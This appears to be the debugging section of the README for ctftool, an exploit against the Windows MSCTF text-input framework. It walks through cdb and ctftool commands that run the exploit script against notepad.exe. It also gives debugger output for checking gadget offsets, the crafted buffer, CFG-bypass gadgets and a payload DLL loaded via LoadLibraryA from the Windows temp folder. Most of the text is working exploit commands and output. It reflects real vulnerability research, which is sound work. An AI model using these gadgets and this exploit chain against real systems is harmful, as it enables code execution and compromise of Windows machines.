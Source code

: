 ## Debugging

Here is how I debug problems with the exploit.

```$ cdb notepad.exe```

Disable first chance AV and BPE exceptions, because there are a lot of them.

```
> sxd av
> sxd bpe
> g
```

Then do this in ctftool

```
ctf> connect
ctf> wait notepad.exe
ctf> script scripts\ctf-exploit-common-1903.ctf
```

### Things to check

* Are the offsets still correct?
```
0:000> ? msvcrt!_init_time - msvcrt
Evaluate expression: 204080 = 00000000`00031d30
0:000> ? combase!CStdProxyBuffer_CF_AddRef - combase
Evaluate expression: 2023984 = 00000000`001ee230
0:000> ? KERNEL32!LoadLibraryAStub - kernel32
Evaluate expression: 125792 = 00000000`0001eb60
0:000> ? msctf!CCompartmentEventSink::`vftable' - msctf
Evaluate expression: 991272 = 00000000`000f2028
0:000> ? MSCTF!CCompartmentEventSink::OnChange - msctf 
Evaluate expression: 798752 = 00000000`000c3020
0:000> dqs msctf!CCompartmentEventSink::`vftable' L4
00007ffd`04312028  00007ffd`04243d00 MSCTF!CCompartmentEventSink::QueryInterface
00007ffd`04312030  00007ffd`04262840 MSCTF!CCompartmentEventSink::AddRef
00007ffd`04312038  00007ffd`0425c940 MSCTF!CCompartmentEventSink::Release
00007ffd`04312040  00007ffd`042e3020 MSCTF!CCompartmentEventSink::OnChange
0:000> dqs MSCTF!CStubIEnumTfInputProcessorProfiles::_StubTbl + 0n496*8 L
00007ffd`1aee6440 MSCTF!CTipProxy::Reconvert
```

* Did the buffer get built correctly?

```
0:000> dqs kernel32 + a9008 L8
00007ffd`03df9008  00007ffd`03df9008 KERNEL32!g_Upload16BitCriticalSection+0x128
00007ffd`03df9010  00007ffd`042e3020 MSCTF!CCompartmentEventSink::OnChange
00007ffd`03df9018  00000000`00000000
00007ffd`03df9020  00000000`00000000
00007ffd`03df9028  00000000`00000000
00007ffd`03df9030  00000000`00000000
00007ffd`03df9038  00007ffd`03d6eb60 KERNEL32!LoadLibraryAStub
00007ffd`03df9040  00007ffd`03df9048 KERNEL32!g_Upload16BitCriticalSection+0x168
0:000> da kernel32 + a9008 + 8*8
00007ffd`03df9048  "..\TEMP\EXPLOIT"
```

* Are the gadgets different?

```
0:000> u MSCTF!CCompartmentEventSink::OnChange 
MSCTF!CCompartmentEventSink::OnChange:
00007ffd`042e3020 488b4130        mov     rax,qword ptr [rcx+30h]
00007ffd`042e3024 488b4938        mov     rcx,qword ptr [rcx+38h]
00007ffd`042e3028 48ff25718a0300  jmp     qword ptr [MSCTF!_guard_dispatch_icall_fptr (00007ffd`0431baa0)]
0:000> u combase!CStdProxyBuffer_CF_AddRef 
combase!CStdProxyBuffer_CF_AddRef:
00007ffd`02e1e230 488b49c8        mov     rcx,qword ptr [rcx-38h]
00007ffd`02e1e234 488b01          mov     rax,qword ptr [rcx]
00007ffd`02e1e237 488b4008        mov     rax,qword ptr [rax+8]
00007ffd`02e1e23b 48ff254e5d0700  jmp     qword ptr [combase!__guard_dispatch_icall_fptr (00007ffd`02e93f90)]
```

* Did the CFG whitelist change?

```C:\> dumpbin /headers /loadconfig```

* Is the payload DLL accessible?

```C:\> icacls %WINDIR%\temp\exploit.dll```

* Is the payload DLL working?

```C:\> rundll32 %WINDIR%\temp\exploit.dll,test```
